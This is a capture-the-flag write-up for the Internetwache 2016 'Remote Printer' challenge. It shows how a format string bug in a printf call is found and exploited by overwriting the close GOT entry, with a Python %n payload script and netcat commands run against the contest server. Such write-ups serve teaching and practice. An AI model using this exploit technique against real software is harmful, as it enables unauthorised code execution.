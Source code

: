 # Internetwache 2016 - Exploit - Remote Printer - 80 pts

> Description: Printer are very very important for offices. Especially for remote printing. My boss told me to build a tool for that task.
>
> Attachment: exp80.zip
>
> Service: 188.166.133.53:12377 

# Write-up

Connecting to the specified address, we get an interface to enter an address and a port for a "remote printer".

So, let's start netcat in listening mode 

```shell
nc -lvvp 6666
```

and pass this as the remote printer. We'll see the service connects to our local netcat session and waits for some input. After entering some gibberish, the service just prints our input and closes.

Let's have a look at the disassembled code, that handles the communication:

```c
function sub_8048786 {
    esp = (esp - 0x4 - 0x4 - 0x4 - 0x4) + 0x10;
    var_C = socket(0x2, 0x1, 0x0);
    if (var_C == 0xffffffff) {
            puts("No socket :(");
    }
    else {
            inet_addr(arg0);
            htons();
            esp = (((esp - 0xc - 0x4) + 0x10 - 0xc - 0x4) + 0x10 - 0x4 - 0x4 - 0x4 - 0x4) + 0x10;
            if (connect(var_C, 0x2, 0x10) < 0x0) {
                    perror("No communication :(\n");
            }
            else {
                    esp = (esp - 0x4 - 0x4 - 0x4 - 0x4) + 0x10;
                    if (recv(var_C, var_201C, 0x2000, 0x0) < 0x0) {
                            puts("No data :(");
                    }
                    else {
                            printf(var_201C);
                            close(var_C);
                    }
            }
    }
    return;
}
```

It just receives our input and prints it back via printf. But since it doesn't pass a format string, it seems to be a simple format string vulnerability.

Quick test:

```shell
$ nc -lvvp 6666
listening on [any] 6666 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 44112
AAAABBBB%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
 sent 44, rcvd 0
```

```shell
$ ./RemotePrinter 
This is a remote printer!
Enter IPv4 address:127.0.0.1
Enter port:6666
Thank you, I'm trying to print 127.0.0.1:6666 now!
AAAABBBBff8cd4fc.2000.0.0.0.0.41414141.42424242.252e7825.78252e78.2e78252e.252e7825
```

Ok, our format string shows up in the 7th and 8th parameter.

After printf the service calls `close`, so we can just overwrite close.plt.

```shell
$ objdump -R RemotePrinter 

RemotePrinter:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049c34 R_386_GLOB_DAT    __gmon_start__
08049c8c R_386_COPY        stdout
[SNIP]
08049c74 R_386_JUMP_SLOT   inet_addr
08049c78 R_386_JUMP_SLOT   connect
08049c7c R_386_JUMP_SLOT   recv
08049c80 R_386_JUMP_SLOT   close
```

Nicely enough the RemotePrinter service also contains a method, spitting out the flag quite happily, if called.

```C
function sub_8048867 {
    var_C = fopen(0x80489de, 0x80489dc);
    fgets(var_3E, 0x32, var_C);
    fclose(var_C);
    eax = printf("YAY, FLAG: %s\n", var_3E);
    return eax;
}
```

So all we have to do is to overwrite close (0x08049c80) with this one (0x08048867). 

Starting the service in gdb and adjusting the format string led to the following exploit:

```python
#!/usr/bin/python
import struct

def p(x):
	return struct.pack("<L", x)

CLOSE = 0x08049c80
SHOWFLAG = 0x08048867

payload = ""
payload += p(CLOSE)
payload += p(CLOSE+2)
payload += "%34911u%7$n"
payload += "%32669u%8$n"

print payload
```

After getting this working locally, all there's left to do is to open up a nc listener passing our payload:

```shell
$ python xpl.py | nc -lvvp 6666
listening on [any] 6666 ...
connect to [192.168.2.103] from serv1.2016.ctf.internetwache.org [178.62.254.108] 58820
 sent 31, rcvd 0
```

and asking the remote service to connect to us:

```shell
$ nc 188.166.133.53 12377
This is a remote printer!
Enter IPv4 address:87.149.209.194
Enter port:6666
Thank you, I'm trying to print 87.149.209.194:6666 now!
����                                                                                                                                       
[SNIP]
8192
YAY, FLAG: IW{YVO_F0RmaTt3d_RMT_Pr1nT3R}
```
